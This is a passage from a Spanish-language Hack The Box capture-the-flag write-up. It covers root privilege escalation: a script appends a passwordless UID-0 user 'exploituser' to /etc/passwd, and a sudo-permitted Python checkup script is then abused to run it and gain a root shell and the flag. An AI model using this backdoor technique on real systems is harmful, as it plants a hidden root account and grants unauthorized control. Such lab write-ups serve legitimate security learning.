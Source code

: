 1. Creamos el script

    ```bash
    nano full-checkup.sh
    ```

    El script añade un usuario llamado **exploituser** sin contraseña y con la bash de **root** al archivo **/etc/passwd**.

    ```bash
    #!/bin/bash

    echo 'exploituser::0:0:root:/root:/bin/bash' >> /etc/passwd
    ```

2. Le damos permisos de ejecución.

    ```bash
    chmod +x full-checkup.sh
    ```

3. Ejecutamos el script.

    ```bash
    sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
    ```

![picture](/assets/images/hackthebox/bus35.png){: w="600" h="300" }


Vemos que se ha ejecutado correctamente.

![picture](/assets/images/hackthebox/bus36.png)

Y migramos al usuario **exploituser** obteniendo una bash de **root**, en la carpeta personal se encuentra la segunda **flag**.

![picture](/assets/images/hackthebox/bus37.png)
